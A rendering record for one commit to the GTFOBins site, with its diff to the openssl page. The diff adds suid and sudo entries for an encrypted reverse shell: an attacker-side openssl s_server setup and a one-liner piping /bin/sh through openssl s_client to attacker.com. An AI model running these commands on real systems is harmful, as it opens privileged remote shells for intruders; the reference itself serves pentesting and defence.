

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/openssl.md, in a window 1280 px wide and 1400 px high, scrolled down 1295 px. Shown: the top 1372 px of the window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2251 px from its top, so only the background shows below that.

Commit message:
Add suid/sudo accordingly to openssl

```diff
--- a/_gtfobins/openssl.md
+++ b/_gtfobins/openssl.md
@@ -52,11 +52,31 @@ functions:
         LFILE=file_to_read
         openssl enc -in "$LFILE"
   suid:
+    - description: |
+        To receive the shell run the following on the attacker box:
+
+            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
+
+        Communication between attacker and target will be encrypted.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
+
     - code: |
         LFILE=file_to_write
         echo DATA | openssl enc -out "$LFILE"
   sudo:
-    - code: |
-        LFILE=file_to_write
-        echo DATA | sudo openssl enc -out "$LFILE"
+    - description: |
+        To receive the shell run the following on the attacker box:
+
+            openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
+            openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
+
+        Communication between attacker and target will be encrypted.
+      code: |
+        RHOST=attacker.com
+        RPORT=12345
+        mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | sudo openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
 ---
```
